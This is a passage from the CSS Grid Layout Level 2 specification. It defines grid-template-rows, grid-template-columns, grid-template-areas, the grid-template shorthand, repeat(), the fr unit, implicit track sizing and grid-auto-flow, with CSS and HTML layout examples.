| [Animation type:](#web-animations-1:animation-type) | if the list lengths match, by computed value type per item in the computed track list (see [§ 7.2.5 Computed Value of a Track Listing](#css-grid-2:computed-tracks) and [§ 7.2.3.3 Interpolation/Combination of repeat()](#css-grid-2:repeat-interpolation)); discrete otherwise |

These properties specify, as a space-separated **track list**, the line names and track sizing functions of the grid. The `grid-template-columns` property specifies the track list for the grid’s columns, while `grid-template-rows` specifies the track list for the grid’s rows.

Values have the following meanings:

****none****

: Indicates that no explicit grid tracks are created by this property (though explicit grid tracks could still be created by `grid-template-areas`).

  > **Note:** In the absence of an explicit grid any rows/columns will be [implicitly generated](#css-grid-2:implicit-grids), and their size will be determined by the `grid-auto-rows` and `grid-auto-columns` properties.

****`<track-list>` | `<auto-track-list>`****

: Specifies the track list as a series of track sizing functions and line names. Each **track sizing function** can be specified as a length, a percentage of the grid container’s size, a measurement of the contents occupying the column or row, or a fraction of the free space in the grid. It can also be specified as a range using the `minmax()` notation, which can combine any of the previously mentioned mechanisms to specify separate min and max track sizing functions for the column or row.

****subgrid `<line-name-list>`?****

: The **subgrid** value indicates that the grid will adopt the spanned portion of its parent grid in that axis (the **subgridded axis**). Rather than being specified explicitly, the sizes of the grid rows/columns will be taken from the parent grid’s definition, and the subgrid’s items will participate in the [intrinsic size calculations](#css-grid-2:algo-content) ([CSS Grid Layout 1 § 11.5 Resolve Intrinsic Track Sizes](#css-grid-2:algo-content)) of any tracks shared with the parent grid. Essentially, subgrids provide the ability to pass grid parameters down through nested elements, and content-based sizing information back up to their parent grid.

  The `<line-name-list>` argument allows local naming of the grid lines shared with the parent grid: if a <line-name-list> is given, the specified `<line-names>`s are assigned to the lines of the subgrid’s explicit grid, one per line, starting with line 1. Excess <line-names> are ignored.

  If there is no parent grid, or if the grid container is otherwise forced to establish an independent formatting context (for example, due to layout containment [CSS-CONTAIN-2] or absolute positioning [CSS-POSITION-3]), the used value is the initial value, `none`, and the grid container is not a subgrid.

  An axis that is not subgridded is a **standalone axis**.

The syntax of a track list is:

```css
<track-list>          = [ <line-names>? [ <track-size> | <track-repeat> ] ]+ <line-names>?
<auto-track-list>     = [ <line-names>? [ <fixed-size> | <fixed-repeat> ] ]* <line-names>? <auto-repeat>
                        [ <line-names>? [ <fixed-size> | <fixed-repeat> ] ]* <line-names>?
<explicit-track-list> = [ <line-names>? <track-size> ]+ <line-names>?

<line-name-list>      = [ <line-names> | <name-repeat> ]+
<track-size>          = <track-breadth> | minmax( <inflexible-breadth> , <track-breadth> ) | fit-content( <length-percentage [0,∞]> )
<fixed-size>          = <fixed-breadth> | minmax( <fixed-breadth> , <track-breadth> ) | minmax( <inflexible-breadth> , <fixed-breadth> )
<track-breadth>       = <length-percentage [0,∞]> | <flex [0,∞]> | min-content | max-content | auto
<inflexible-breadth>  = <length-percentage [0,∞]> | min-content | max-content | auto
<fixed-breadth>       = <length-percentage [0,∞]>
<line-names>          = '[' <custom-ident>* ']'
```

Where the component values are defined as follows…

##### 7.2.1.  Track Sizes {#css-grid-2:track-sizes}

****`<length-percentage [0,∞]>`****

: A non-negative length or percentage, as defined by CSS3 Values. [CSS-VALUES-3]

  `<percentage>` values are relative to the inner inline size of the grid container in column grid tracks, and the inner block size of the grid container in row grid tracks. If the size of the grid container depends on the size of its tracks, then the <percentage> must be treated as `auto`, for the purpose of calculating the intrinsic sizes of the grid container and then resolve against that resulting grid container size for the purpose of laying out the grid and its items.

****`<flex [0,∞]>`****

: A non-negative dimension with the unit `fr` specifying the track’s **flex factor**. Each `<flex>`-sized track takes a share of the remaining space in proportion to its flex factor. For example, given a track listing of `1fr 2fr`, the tracks will take up ⅓ and ⅔ of the leftover space, respectively. See [§ 7.2.4 Flexible Lengths: the fr unit](#css-grid-2:fr-unit) for more details.

  > **Note:** If the sum of the flex factors is less than 1, they’ll take up only a corresponding fraction of the leftover space, rather than expanding to fill the entire thing.

  When appearing outside a `minmax()` notation, implies an automatic minimum (i.e. `minmax(auto, <flex>)`).

****minmax(*min*, *max*)****

: Defines a size range greater than or equal to *min* and less than or equal to *max*. If the *max* is less than the *min*, then the *max* will be floored by the *min* (essentially yielding `minmax(min, min)`). As a maximum, a `<flex>` value sets the track’s flex factor; it is invalid as a minimum.

  > **Note:** A future level of this spec may allow `<flex>` minimums, and will update the track sizing algorithm to account for this correctly

****auto****

: As a *maximum*: represents the largest max-content contribution of the grid items occupying the grid track; however, unlike `max-content`, allows expansion of the track by the `align-content` and `justify-content` properties.

  As a *minimum*: represents the largest minimum size (specified by `min-width`/`min-height`) of the grid items occupying the grid track. (This initially is often, but not always, equal to a `min-content` minimum—​see [§ 6.6 Automatic Minimum Size of Grid Items](#css-grid-2:min-size-auto).)

  When appearing outside a `minmax()` notation: equivalent to `minmax(auto, auto)`, representing the range between the minimum and maximum described above. (This behaves similar to `minmax(min-content, max-content)` in the most basic cases, but with extra abilities.)

****max-content****

: Represents the largest max-content contribution of the grid items occupying the grid track.

****min-content****

: Represents the largest min-content contribution of the grid items occupying the grid track.

****fit-content( `<length-percentage>` )****

: Represents the formula `max(minimum, min(limit, max-content))`, where *minimum* represents an `auto` minimum (which is often, but not always, equal to a `min-content` minimum), and *limit* is the track sizing function passed as an argument to `fit-content()`. This is essentially calculated as the smaller of `minmax(auto, max-content)` and `minmax(auto, limit)`.

> **Example:** Given the following `grid-template-columns` declaration:
>
> ```
> grid-template-columns: 100px 1fr max-content minmax(min-content, 1fr);
> ```
>
> Five grid lines are created:
>
> 1. At the start edge of the grid container.
> 2. 100px from the start edge of the grid container.
> 3. A distance from the previous line equal to half the free space (the width of the grid container, minus the width of the non-flexible grid tracks).
> 4. A distance from the previous line equal to the maximum size of any grid items belonging to the column between these two lines.
> 5. A distance from the previous line at least as large as the largest minimum size of any grid items belonging to the column between these two lines, but no larger than the other half of the free space.
>
> If the non-flexible sizes (`100px`, `max-content`, and `min-content`) sum to larger than the grid container’s width, the final grid line will be a distance equal to their sum away from the start edge of the grid container (the `1fr` sizes both resolve to `0`). If the sum is less than the grid container’s width, the final grid line will be exactly at the end edge of the grid container. This is true in general whenever there’s at least one `<flex>` value among the grid track sizes.

> **Example:** Additional examples of valid grid track definitions:
>
> ```
> /* examples of valid track definitions */
> grid-template-rows: 1fr minmax(min-content, 1fr);
> grid-template-rows: 10px repeat(2, 1fr auto minmax(30%, 1fr));
> grid-template-rows: calc(4em - 5px);
> ```

> **Note:** The size of the grid is not purely the sum of the track sizes, as `row-gap`, column-gap and `justify-content`, `align-content` can add additional space between tracks.

##### 7.2.2.  Naming Grid Lines: the `[<custom-ident>*]` syntax {#css-grid-2:named-lines}

While grid lines can always be referred to by their numerical index, **line names** can make the grid-placement properties easier to understand and maintain. Line names can be **explicitly assigned** with the `grid-template-rows` and `grid-template-columns` properties, or implicitly assigned by named grid areas with the `grid-template-areas` property.

> **Example:** For example, the following code gives meaningful names to all of the lines in the grid. Note that some of the lines have multiple names.
>
> ```
> #grid {
>   display: grid;
>   grid-template-columns: [first nav-start] 150px [main-start] 1fr [last];
>   grid-template-rows: [first header-start] 50px [main-start] 1fr [footer-start] 50px [last];
> }
> ```
>
> 
>
> Named Grid Lines.

A line name cannot be `span` or `auto`, i.e. the `<custom-ident>` in the `<line-names>` production excludes the keywords `span` and `auto`.

##### 7.2.3.  Repeating Rows and Columns: the `repeat()` notation {#css-grid-2:repeat-notation}

The **repeat()** notation represents a repeated fragment of the track list, allowing a large number of columns or rows that exhibit a recurring pattern to be written in a more compact form.

> **Example:** This example shows two equivalent ways of writing the same grid definition. Both declarations produce four “main” columns, each 250px wide, surrounded by 10px “gutter” columns.
>
> ```
> grid-template-columns: 10px [col-start] 250px [col-end]
>                        10px [col-start] 250px [col-end]
>                        10px [col-start] 250px [col-end]
>                        10px [col-start] 250px [col-end] 10px;
> /* same as above, except easier to write */
> grid-template-columns: repeat(4, 10px [col-start] 250px [col-end]) 10px;
> ```

###### 7.2.3.1.  Syntax of `repeat()` {#css-grid-2:repeat-syntax}

The generic form of the `repeat()` syntax is, approximately,

```css
repeat( [ <integer [1,∞]> | auto-fill | auto-fit ] , <track-list> )
```

The first argument specifies the number of repetitions. The second argument is a track list, which is repeated that number of times. However, there are some restrictions:

- The `repeat()` notation can’t be nested.
- Automatic repetitions (`auto-fill` or `auto-fit`) cannot be combined with fully intrinsic or flexible sizes (see grammar).

Thus the precise syntax of the `repeat()` notation has several forms:

```css
<track-repeat> = repeat( [ <integer [1,∞]> ] , [ <line-names>? <track-size> ]+ <line-names>? )
<auto-repeat>  = repeat( [ auto-fill | auto-fit ] , [ <line-names>? <fixed-size> ]+ <line-names>? )
<fixed-repeat> = repeat( [ <integer [1,∞]> ] , [ <line-names>? <fixed-size> ]+ <line-names>? )
<name-repeat> = repeat( [ <integer [1,∞]> | auto-fill ], <line-names>+)
```

- The `<track-repeat>` variant can represent the repetition of any `<track-size>`, but is limited to a fixed number of repetitions.
- The `<auto-repeat>` variant can repeat automatically to fill a space, but requires definite track sizes so that the number of repetitions can be calculated. It can only appear once in the track list, but the same track list can also contain `<fixed-repeat>`s.
- The `<name-repeat>` variant is for adding line names to subgrids. It can only be used with the `subgrid` keyword and cannot specify track sizes, only line names.

If a `repeat()` function that is not a `<name-repeat>` ends up placing two `<line-names>` adjacent to each other, the name lists are merged. For example, `repeat(2, [a] 1fr [b])` is equivalent to `[a] 1fr [b a] 1fr [b]`.

###### 7.2.3.2.  Repeat-to-fill: `auto-fill` and `auto-fit` repetitions {#css-grid-2:auto-repeat}

On a subgridded axis, the `auto-fill` keyword is only valid once per `<line-name-list>`, and repeats enough times for the name list to match the subgrid’s specified grid span (falling back to 0 if the span is already fulfilled).

Otherwise on a standalone axis, when **auto-fill** is given as the repetition number, if the grid container has a definite preferred size or maximum size in the relevant axis, then the number of repetitions is the largest possible positive integer that does not cause the grid to overflow the content box of its grid container taking `gap` into account; if any number of repetitions would overflow, then 1 repetition. Otherwise, if the grid container has a definite minimum size in the relevant axis, the number of repetitions is the smallest possible positive integer that fulfills that minimum requirement. Otherwise, the specified track list repeats only once.

For this purpose, each track is treated as its max track sizing function if that is definite or else its min track sizing function if that is definite. If both are definite, floor the max track sizing function by the min track sizing function. If neither are definite, the number of repetitions is one.

> **Example:** For example, the following code will create as many 25-character columns as will fit into the window width. If there is any remaining space, it will be distributed among the 25-character columns.
>
> ```
> body {
>   display: grid;
>   grid-template-columns: repeat(auto-fill, minmax(25ch, 1fr));
> }
> ```

The **auto-fit** keyword behaves the same as `auto-fill`, except that after [grid item placement](#css-grid-2:auto-placement-algo) any empty repeated tracks are collapsed. An empty track is one with no in-flow grid items placed into or spanning across it. (This can result in *all* tracks being collapsed, if they’re all empty.)

A **collapsed grid track** is treated as having a fixed track sizing function of `0px`, and the gutters on either side of it—​including any space allotted through distributed alignment—​collapse.

For the purpose of finding the number of auto-repeated tracks in a standalone axis, the UA must floor the track size to a UA-specified value to avoid division by zero. It is suggested that this floor be `1px`.

###### 7.2.3.3.  Interpolation/Combination of `repeat()` {#css-grid-2:repeat-interpolation}

If two `repeat()` notations that have the same first argument (repetition count) and the same number of tracks in their second argument (the track listing), they are combined by combining each component of their computed track lists by computed value (just like combining a top-level track list). They otherwise combine discretely.

##### 7.2.4.  Flexible Lengths: the `fr` unit {#css-grid-2:fr-unit}

A **flexible length** or **`<flex>`** is a dimension with the **fr** unit, which represents a fraction of the leftover space in the grid container. Tracks sized with `fr` units are called **flexible tracks** as they flex in response to leftover space similar to how flex items with a zero base size fill space in a flex container.

The distribution of leftover space occurs after all non-flexible track sizing functions have reached their maximum. The total size of such rows or columns is subtracted from the available space, yielding the leftover space, which is then divided among the flex-sized rows and columns in proportion to their flex factor.

Each column or row’s share of the leftover space can be computed as the column or row’s `<flex> * <leftover space> / <sum of all flex factors>`.

> **Note:** `<flex>` values between 0fr and 1fr have a somewhat special behavior: when the sum of the flex factors is less than 1, they will take up less than 100% of the leftover space.
>
> A track’s `<flex>` value is effectively a request for some proportion of the leftover space, with `1fr` meaning “100% of the leftover space”; then if the tracks in that axis are requesting more than 100% in total, the requests are rebalanced to keep the same ratio but use up exactly 100% of it. However, if the tracks request *less* than the full amount (such as three tracks that are each `.25fr`) then they’ll each get exactly what they request (25% of the leftover space to each, with the final 25% left unfilled). See [§ 12.7 Expand Flexible Tracks](#css-grid-2:algo-flex-tracks) for the exact details of how leftover space is distributed.
>
> This pattern is required for continuous behavior as `fr` values approach zero (which means the tracks wants *none* of the leftover space). Without this, a `1fr` track would take all of the leftover space; but so would a `0.1fr` track, and a `0.01fr` track, etc., until finally the value is small enough to underflow to zero and the track suddenly takes up none of the leftover space. With this behavior, the track instead gradually takes less of the leftover space as its flex factor shrinks below `1fr`, smoothly transitioning to taking none of the leftover space at zero.
>
> Unless this “partial fill” behavior is *specifically* what’s desired, authors should stick to values ≥ 1; for example, using `1fr` and `2fr` is usually better than using `.33fr` and `.67fr`, as they’re more likely to behave as intended if tracks are added or removed.

When the available space is infinite (which happens when the grid container’s width or height is indefinite), flex-sized grid tracks are sized to their contents while retaining their respective proportions. The used size of each flex-sized grid track is computed by determining the `max-content` size of each flex-sized grid track and dividing that size by the respective flex factor to determine a “hypothetical `1fr` size”. The maximum of those is used as the resolved `1fr` length (the **flex fraction**), which is then multiplied by each grid track’s flex factor to determine its final size.

> **Note:** `<flex>` values are not `<length>`s (nor are they compatible with <length>s, like some `<percentage>` values), so they cannot be represented in or combined with other unit types in `calc()` expressions.

##### 7.2.5.  Computed Value of a Track Listing {#css-grid-2:computed-tracks}

The **computed track list** of a non-`subgrid` axis is a list alternating between line name sets and track sections, with the first and last items being line name sets.

A **line name set** is a (potentially empty) set of identifiers representing line names.

A **track section** is either:

- a `minmax()` functional notation representing a single track’s size, with each `<length-percentage>` computed (a **computed track size**)
- a `repeat()` functional notation representing a repeated track list section, with its `<integer>` computed and its `<track-list>` represented as a computed track list (a **computed repeat notation**)

The computed track list of a `subgrid` axis is the `subgrid` keyword followed by a list of line name sets and computed repeat notations representing the line names specified for that axis.

##### 7.2.6.  Resolved Value of a Track Listing {#css-grid-2:resolved-track-list}

The `grid-template-rows` and `grid-template-columns` properties are resolved value special case properties. [CSSOM]

###### 7.2.6.1.  Resolved Value of a Standalone Track Listing {#css-grid-2:resolved-track-list-standalone}

When an element generates a grid container box, the [resolved value](#cssom-1:resolved-values) of its `grid-template-rows` or `grid-template-columns` property in a standalone axis is the used value, serialized with:

- Every track listed individually, whether implicitly or explicitly created, without using the `repeat()` notation.
- Every track size given as a length in pixels, regardless of sizing function.
- Adjacent line names collapsed into a single bracketed set.

> **Issue:** The first bullet point of the above list means that implicit tracks get serialized as part of `grid-template-rows`/etc., despite the fact that an author *cannot* actually specify implicit track sizes in those properties! So `grid-template-rows` and `grid-template-columns` values might not round-trip correctly:
>
> ```
> const s = getComputedStyle(gridEl);
> gridEl.style.gridTemplateRows = s.gridTemplateRows;
> // Code like this should be a no-op,
> // but if there are any implicit rows,
> // this will convert them into explicit rows,
> // possibly changing how grid items are positioned
> // and altering the overall size of the grid!
> ```
>
> This is an accidental property of an early implementation that leaked into later implementations without much thought given to it. We intend to remove it from the spec, but not until after we’ve defined a CSSOM API for getting information about implicit tracks, as currently this is the only way to get that information and a number of pages rely on that.

Otherwise, (e.g. when the element has `display: none` or is not a grid container) the resolved value is simply the computed value.

> **Example:** ```html
> <style>
> #grid {
>   width: 500px;
>   grid-template-columns:
>     [a]     auto
>     [b]     minmax(min-content, 1fr)
>     [b c d] repeat(2, [e] 40px)
>             repeat(5, auto);
> }
> </style>
> <div id="grid">
>   <div style="grid-column-start: 1; width: 50px"></div>
>   <div style="grid-column-start: 9; width: 50px"></div>
> </div>
> <script>
>   var gridElement = document.getElementById("grid");
>   getComputedStyle(gridElement).gridTemplateColumns;
>   // [a] 50px [b] 320px [b c d e] 40px [e] 40px 0px 0px 0px 0px 50px
> </script>
> ```

> **Note:** In general, resolved values are the computed values, except for a small list of legacy 2.1 properties. However, compatibility with early implementations of this module requires us to define `grid-template-rows` and `grid-template-columns` as returning used values.

> **Issue:** The CSS Working Group is considering whether to also return used values for the grid-placement properties and is looking for feedback, especially from implementors. See [discussion](https://github.com/w3c/csswg-drafts/issues/2681).

###### 7.2.6.2.  Resolved Value of a Subgridded Track Listing {#css-grid-2:resolved-track-list-subgrid}

When an element generates a grid container box that is a subgrid, the resolved value of the `grid-template-rows` and `grid-template-columns` properties represents the used number of columns, serialized as the `subgrid` keyword followed by a list representing each of its lines as a line name set of all the line’s names explicitly defined on the subgrid (not including those adopted from the parent grid), without using the `repeat()` notation.

> **Example:** For example, when applied to a subgrid with `grid-column: span 4`, each of the following `grid-template-columns` specified values becomes the corresponding resolved values:
>
> ```css
> specified: subgrid [a] repeat(auto-fill, [b]) [c]
> resolved:  subgrid [a] [b] [b] [b] [c]
> ```
>
> ```css
> specified: subgrid [a] [a] [a] [a] repeat(auto-fill, [b]) [c] [c]
> resolved:  subgrid [a] [a] [a] [a] [c]
> ```
>
> ```css
> specified: subgrid [] [a]
> resolved:  subgrid [] [a] [] [] []
> ```
>
> ```css
> specified: subgrid [a] [b] [c] [d] [e] [f]
> resolved:  subgrid [a] [b] [c] [d] [e]
> ```

> **Note:** This violates the general "shortest equivalent serialization" principle by serializing empty trailing line name sets, as the trailing line name sets provide potentially-useful information about how many tracks the subgrid is spanning.

#### 7.3.  Named Areas: the `grid-template-areas` property {#css-grid-2:grid-template-areas-property}

| Field | Value |
| --- | --- |
| Name: | **grid-template-areas** |
| [Value:](#css-values-4:value-defs) | none \| `<string>`+ |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | grid containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | the keyword `none` or a list of string values |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property specifies **named grid areas**, which are not associated with any particular grid item, but can be referenced from the grid-placement properties. The syntax of the `grid-template-areas` property also provides a visualization of the structure of the grid, making the overall layout of the grid container easier to understand.

Values have the following meanings:

****none****

: Indicates that no named grid areas, and likewise no explicit grid tracks, are defined by this property (though explicit grid tracks could still be created by `grid-template-columns` or `grid-template-rows`).

  > **Note:** In the absence of an explicit grid any rows/columns will be [implicitly generated](#css-grid-2:implicit-grids), and their size will be determined by the `grid-auto-rows` and `grid-auto-columns` properties.

****`<string>`+****

: A row is created for every separate string listed for the `grid-template-areas` property, and a column is created for each cell in the string, when parsed as follows:

  Tokenize the string into a list of the following tokens, using longest-match semantics:

  - A sequence of ident code points, representing a **named cell token** with a name consisting of its code points.
  - A sequence of one or more "." (U+002E FULL STOP), representing a **null cell token**.
  - A sequence of whitespace, representing nothing (do not produce a token).
  - A sequence of any other characters, representing a **trash token**.

  > **Note:** These rules can produce cell names that do not match the `<ident>` syntax, such as "1st 2nd 3rd", which requires escaping when referencing those areas by name in other properties, like `grid-row: \31st;` to reference the area named `1st`.

  - A null cell token represents an unnamed area in the grid container.
  - A named cell token creates a named grid area with the same name. Multiple named cell tokens within and between rows create a single named grid area that spans the corresponding grid cells.
  - A trash token is a syntax error, and makes the declaration invalid.

  All strings must define the same number of cell tokens (named cell tokens and/or null cell tokens), and at least one cell token, or else the declaration is invalid. If a named grid area spans multiple grid cells, but those cells do not form a single filled-in rectangle, the declaration is invalid.

  > **Note:** Non-rectangular or disconnected regions may be permitted in a future version of this module.

> **Example:** In this example, the `grid-template-areas` property is used to create a page layout where areas are defined for header content (`head`), navigational content (`nav`), footer content (`foot`), and main content (`main`). Accordingly, the template creates three rows and two columns, with four named grid areas. The `head` area spans both columns and the first row of the grid.
>
> ```
> #grid {
>   display: grid;
>   grid-template-areas: "head head"
>                        "nav  main"
>                        "foot ...."
> }
> #grid > header { grid-area: head; }
> #grid > nav    { grid-area: nav; }
> #grid > main   { grid-area: main; }
> #grid > footer { grid-area: foot; }
> ```

##### 7.3.1.  Serialization Of Template Strings {#css-grid-2:serialize-template}

When serializing either the specified or computed value of a `<string>` value of `grid-template-areas`, each null cell token is serialized as a single "." (U+002E FULL STOP), and consecutive cell tokens are separated by a single space (U+0020 SPACE), with all other white space elided.

##### 7.3.2.  Implicitly-Assigned Line Names {#css-grid-2:implicit-named-lines}

The `grid-template-areas` property generates **implicitly-assigned line names** from the named grid areas in the template. For each named grid area *foo*, four implicitly-assigned line names are created: two named `foo-start`, naming the row-start and column-start lines of the named grid area, and two named `foo-end`, naming the row-end and column-end lines of the named grid area.

These implicitly-assigned line names behave just like any other line names, except that they do not appear in the value of `grid-template-rows`/`grid-template-columns`. Even if an explicitly-assigned line name with the same name is defined, the implicitly-assigned line names are just more lines with the same name.

##### 7.3.3.  Implicitly-Named Areas {#css-grid-2:implicit-named-areas}

Since a named grid area is referenced by the implicitly-assigned line names it produces, explicitly adding named lines of the same form (`foo-start`/`foo-end`) effectively creates a named grid area. Such **implicitly-named areas** do not appear in the value of `grid-template-areas`, but can still be referenced by the grid-placement properties.

#### 7.4.  Explicit Grid Shorthand: the `grid-template` property {#css-grid-2:explicit-grid-shorthand}

| Field | Value |
| --- | --- |
| Name: | **grid-template** |
| [Value:](#css-values-4:value-defs) | none \| [ `<'grid-template-rows'>` / `<'grid-template-columns'>` ] \| [ `<line-names>`? `<string>` `<track-size>`? <line-names>? ]+ [ / `<explicit-track-list>` ]? |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | grid containers |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

The `grid-template` property is a shorthand for setting `grid-template-columns`, `grid-template-rows`, and `grid-template-areas` in a single declaration. It has several distinct syntax forms:

****none****

: Sets all three properties to their initial values (`none`).

****`<'grid-template-rows'>` / `<'grid-template-columns'>`****

: Sets `grid-template-rows` and `grid-template-columns` to the specified values, respectively, and sets `grid-template-areas` to `none`.

  > **Example:** ```
  > grid-template: auto 1fr / auto 1fr auto;
  > ```
  >
  > is equivalent to
  >
  > ```
  > grid-template-rows: auto 1fr;
  > grid-template-columns: auto 1fr auto;
  > grid-template-areas: none;
  > ```

****[ `<line-names>`? `<string>` `<track-size>`? <line-names>? ]+ [ / `<explicit-track-list>` ]?****

: - Sets `grid-template-areas` to the strings listed.
  - Sets `grid-template-rows` to the `<track-size>`s following each string (filling in `auto` for any missing sizes), and splicing in the named lines defined before/after each size.
  - Sets `grid-template-columns` to the track listing specified after the slash (or `none`, if not specified).

  This syntax allows the author to align track names and sizes inline with their respective grid areas.

  > **Example:** ```
  > grid-template: [header-top] "a   a   a"     [header-bottom]
  >                  [main-top] "b   b   b" 1fr [main-bottom]
  >                           / auto 1fr auto;
  > ```
  >
  > is equivalent to
  >
  > ```
  > grid-template-areas: "a a a"
  >                      "b b b";
  > grid-template-rows: [header-top] auto [header-bottom main-top] 1fr [main-bottom];
  > grid-template-columns: auto 1fr auto;
  > ```
  >
  > and creates the following grid:
  >
  > Three columns, sized `auto`, `1fr`, and `auto`, respectively Two rows sized as `auto` and `1fr`, respectively. A line named both “header-top” and “a-start” at the top, a line with four names—​“header-bottom”, “main-top”, “a-end”, and “b-start”—​in the middle, a line named “main-bottom” and “b-end” at the bottom. A line named “a-start” and “b-start” on the left edge, and a line named “a-end” and “b-end” on the right edge.
  >
  > The grid created by the declarations above. (The “a/b-start/end” names are implicitly assigned by the named grid areas.)

  > **Note:** Note that the `repeat()` function isn’t allowed in these track listings, as the tracks are intended to visually line up one-to-one with the rows/columns in the “ASCII art”.

> **Note:** The `grid` shorthand accepts the same syntax, but also resets the implicit grid properties to their initial values. Unless authors want those to cascade in separately, it is therefore recommended to use `grid` instead of `grid-template`.

#### 7.5.  The Implicit Grid {#css-grid-2:implicit-grids}

The `grid-template-rows`, `grid-template-columns`, and `grid-template-areas` properties define a fixed number of tracks that form the explicit grid. When grid items are positioned outside of these bounds, the grid container generates **implicit grid tracks** by adding **implicit grid lines** to the grid. These lines together with the explicit grid form the **implicit grid**. The `grid-auto-rows` and `grid-auto-columns` properties size these implicit grid tracks, as well as any explicit grid tracks created by `grid-template-areas` but not explicitly sized by `grid-template-rows` or `grid-template-columns`

The `grid-auto-flow` property controls auto-placement of grid items without an explicit position. Once the explicit grid is filled (or if there is no explicit grid) auto-placement will also cause the generation of implicit grid tracks.

The `grid` shorthand property can set the **implicit grid properties** (`grid-auto-flow`, `grid-auto-rows`, and `grid-auto-columns`) together with the explicit grid properties in a single declaration.

#### 7.6.  Implicit Track Sizing: the `grid-auto-rows` and `grid-auto-columns` properties {#css-grid-2:auto-tracks}

| Field | Value |
| --- | --- |
| Name: | **grid-auto-columns**, **grid-auto-rows** |
| [Value:](#css-values-4:value-defs) | `<track-size>`+ |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | grid containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | see [Track Sizing](#css-grid-2:track-sizing) |
| [Computed value:](#css-cascade-6:computed) | see [Track Sizing](#css-grid-2:track-sizing) |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | if the list lengths match, by computed value type per item; discrete otherwise |

The `grid-auto-columns` and `grid-auto-rows` properties specify the size of tracks not assigned a size by `grid-template-rows` or `grid-template-columns`. If multiple track sizes are given, the pattern is repeated as necessary to find the size of the affected tracks. The first track after the last explicitly-sized track receives the first specified size, and so on forwards; and the last implicit grid track before the explicit grid receives the last specified size, and so on backwards.

> **Note:** If a grid item is positioned into a row or column that is not explicitly declared by `grid-template-rows`/`grid-template-columns` and/or `grid-template-areas`, implicit grid tracks are created to hold it. This can happen either by explicitly positioning into a row or column that is out of range, or by the auto-placement algorithm creating additional rows or columns.

> **Example:** ```html
> <style>
>   #grid {
>     display: grid;
>     grid-template-columns: 20px;
>     grid-auto-columns: 40px;
>     grid-template-rows: 20px;
>     grid-auto-rows: 40px;
>   }
>   #A { grid-column: 1; grid-row: 1; }
>   #B { grid-column: 2; grid-row: 1; }
>   #C { grid-column: 1; grid-row: 2; }
>   #D { grid-column: 2; grid-row: 2; }
> </style>
>
> <div id="grid">
>   <div id="A">A</div>
>   <div id="B">B</div>
>   <div id="C">C</div>
>   <div id="D">D</div>
> </div>
> ```
>
> 
>
> A 2×2 grid with one explicit 20px×20px grid cell in the first row+column and three additional cells resulting from the implicit 40px column and row generated to hold the additional grid items.

#### 7.7.  **Automatic Placement**: the `grid-auto-flow` property {#css-grid-2:grid-auto-flow-property}

| Field | Value |
| --- | --- |
| Name: | **grid-auto-flow** |
| [Value:](#css-values-4:value-defs) | [ row \| column ] \|\| dense |
| [Initial:](#css-cascade-6:initial-values) | row |
| [Applies to:](#css-cascade-5:applies-to) | grid containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword(s) |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

Grid items that aren’t explicitly placed are automatically placed into an unoccupied space in the grid container by the auto-placement algorithm. `grid-auto-flow` controls how the auto-placement algorithm works, specifying exactly how auto-placed items get flowed into the grid. See [§ 8.5 Grid Item Placement Algorithm](#css-grid-2:auto-placement-algo) for details on precisely how the auto-placement algorithm works.

****row****

: The auto-placement algorithm places items by filling each row in turn, adding new rows as necessary. If neither `row` nor `column` is provided, `row` is assumed.

****column****

: The auto-placement algorithm places items by filling each column in turn, adding new columns as necessary.

****dense****

: If specified, the auto-placement algorithm uses a “dense” packing algorithm, which attempts to fill in holes earlier in the grid if smaller items come up later. This may cause items to appear out-of-order, when doing so would fill in holes left by larger items.

  If omitted, a “sparse” algorithm is used, where the placement algorithm only ever moves “forward” in the grid when placing items, never backtracking to fill holes. This ensures that all of the auto-placed items appear “in order”, even if this leaves holes that could have been filled by later items.

> **Note:** A future level of this module is expected to add a value that flows auto-positioned items together into a single “default” cell.

Auto-placement takes grid items in order-modified document order.

> **Example:** In the following example, there are three columns, each auto-sized to their contents. No rows are explicitly defined. The `grid-auto-flow` property is `row` which instructs the grid to search across its three columns starting with the first row, then the next, adding rows as needed until sufficient space is located to accommodate the position of any auto-placed grid item.
>
> 
>
> A form arranged using automatic placement.
>
> ```
> <style type="text/css">
> form {
>   display: grid;
>   /* Define three columns, all content-sized,
>      and name the corresponding lines. */
>   grid-template-columns: [labels] auto [controls] auto [oversized] auto;
>   grid-auto-flow: row dense;
> }
> form > label {
>   /* Place all labels in the "labels" column and
>      automatically find the next available row. */
>   grid-column: labels;
>   grid-row: auto;
> }
> form > input, form > select {
>   /* Place all controls in the "controls" column and
>      automatically find the next available row. */
>   grid-column: controls;
>   grid-row: auto;
> }
>
> #department-block {
>   /* Auto place this item in the "oversized" column
>      in the first row where an area that spans three rows
>      won't overlap other explicitly placed items or areas
>      or any items automatically placed prior to this area. */
>   grid-column: oversized;
>   grid-row: span 3;
> }
>
> /* Place all the buttons of the form
>    in the explicitly defined grid area. */
> #buttons {
>   grid-row: auto;
>
>   /* Ensure the button area spans the entire grid element
>      in the inline axis. */
>   grid-column: 1 / -1;
>   text-align: end;
> }
> </style>
> <form>
>   <label for="firstname">First name:</label>
>   <input type="text" id="firstname" name="firstname">
>   <label for="lastname">Last name:</label>
>   <input type="text" id="lastname" name="lastname">
>   <label for="address">Address:</label>
>   <input type="text" id="address" name="address">
